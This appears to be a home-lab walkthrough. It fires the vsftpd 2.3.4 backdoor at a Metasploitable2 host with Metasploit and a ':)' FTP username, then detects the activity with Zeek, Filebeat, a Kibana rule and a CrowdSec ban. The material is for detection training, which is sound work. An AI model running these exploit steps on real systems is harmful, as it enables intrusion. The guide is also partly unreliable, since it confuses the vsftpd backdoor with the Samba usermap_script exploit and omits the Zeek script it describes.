 # VSFTPD Exploit — Practical Workflow 

Objective: simulate the vsftpd 2.3.4 backdoor exploit against Metasploitable2, capture and detect the activity with Zeek, ship Zeek logs to Elasticsearch via Filebeat, and visualize in Kibana.

---

## Lab inventory

* Kali (attacker): `192.168.1.39`  — runs Metasploit / launches exploit
* Ubuntu (sensor): `192.168.1.35` — Zeek + Filebeat 
* Metasploitable2 (victim): `192.168.1.36` — vulnerable service (vsftpd)
* Elasticsearch/Kibana: `192.168.1.39:9200 / :5601` 



## 1) Zeek setup on sensor (Ubuntu)

### Install & verify Zeek (already installed in lab)

# Zeek binary location on this lab
/opt/zeek/bin/zeek --version
# add to PATH if needed
export PATH=$PATH:/opt/zeek/bin
```

### Configure interface

Edit `/opt/zeek/etc/node.cfg` and ensure:

```
[zeek]
type=standalone
host=localhost
interface=ens33
```

### Deploy Zeek

sudo zeekctl deploy
sudo zeekctl status
# logs directory
ls /opt/zeek/logs/current/
```

---

## 2) Ensure Zeek is deployed and running:

   sudo /opt/zeek/bin/zeekctl check
   sudo /opt/zeek/bin/zeekctl deploy
   ```
 Verify Zeek logs for Samba backdoor alerts:

   sudo tail -f /opt/zeek/logs/current/notice.log
   ```
Create `/opt/zeek/share/zeek/site/vsftpd-backdoor.zeek` with:


Zeek custom script (`vsftpd-backdoor.zeek`) detects `usermap_script` exploit and logs notice type `VSFTPD_Backdoor`.


Then redeploy:

sudo zeekctl deploy
```

Confirm `notice.log` exists:

ls /opt/zeek/logs/current/
tail -f /opt/zeek/logs/current/notice.log
```

---

## 3) Trigger exploit (Kali)

From Kali (attacker):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.36
set LHOST 192.168.1.39   # your Kali IP for callback if needed
exploit
```

Or interactive test (simple trigger):

ftp 192.168.1.36
# when asked for user, enter:  :)
```

Verify on sensor:

tail -n 50 /opt/zeek/logs/current/notice.log
tail -n 50 /opt/zeek/logs/current/ftp.log   # if present
tcpdump -r /opt/zeek/logs/current/capture.pcap  # if you captured pcaps
```

---

## 4) Ship Zeek logs to Elasticsearch (Filebeat)

### Install Filebeat on sensor

# add Elastic repo and install (Ubuntu)
curl -fsSL https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo gpg --dearmor -o /etc/apt/trusted.gpg.d/elastic.gpg
echo "deb https://artifacts.elastic.co/packages/8.x/apt stable main" | sudo tee /etc/apt/sources.list.d/elastic-8.x.list
sudo apt update
sudo apt install filebeat -y
```

### Enable Zeek module and configure paths

Edit `/etc/filebeat/modules.d/zeek.yml` and set:

- module: zeek
  connection:
    enabled: true
    var.paths: ["/opt/zeek/logs/current/conn.log*"]
  ftp:
    enabled: true
    var.paths: ["/opt/zeek/logs/current/ftp.log*"]
  notice:
    enabled: true
    var.paths: ["/opt/zeek/logs/current/notice.log*"]
```

### Configure Filebeat output to Elasticsearch (example `/etc/filebeat/filebeat.yml` snippet)

output.elasticsearch:
  hosts: ["https://192.168.1.39:9200"]
  username: "elastic"
  password: "elkpass1"
  ssl.verification_mode: none   # lab convenience — use CA in production

setup.kibana:
  host: "https://192.168.1.39:5601"
```

Make Zeek logs readable by Filebeat:

sudo chmod a+r /opt/zeek/logs/current/*.log
```

### Test config and load dashboards

sudo filebeat test config
sudo filebeat modules list   # confirm zeek enabled
sudo filebeat setup --dashboards --index-management
sudo systemctl enable --now filebeat
sudo journalctl -u filebeat -f
```

### Verify indices

curl -u elastic:elkpass1 -k https://192.168.1.39:9200/_cat/indices?v
# look for filebeat-zeek-* or filebeat-*
```

---

## 5) Kibana visualization & detection rules

1. In Kibana, create index pattern `filebeat-zeek-*` (or `filebeat-*`) if not auto-created. Use `@timestamp` as time field.
2. Dashboards: Filebeat `setup --dashboards` should add Zeek dashboards. Open `Dashboard` → search `zeek`.
3. Create a detection rule (Security → Rules):

   * Name: `Zeek vsftpd backdoor notice`
   * Index: `filebeat-zeek-*`
   * KQL: `zeek.notice.name : "VSFTPD_Backdoor" or zeek.ftp.user : ":)"`
   * Severity: High; map to ATT\&CK T1210/T1190
4. Save and enable. When the exploit runs, the rule generates an alert in Security → Alerts.

---

6) Containment using CrowdSec

# Ban the attacker IP (Kali)
sudo cscli decisions add --ip 192.168.1.39 --type ban --duration 1h --origin "SOC-manual-case-001"
sudo cscli decisions list -i 192.168.1.39

Verify ping is blocked:

ping 192.168.1.39
# IP is successfully blocked.




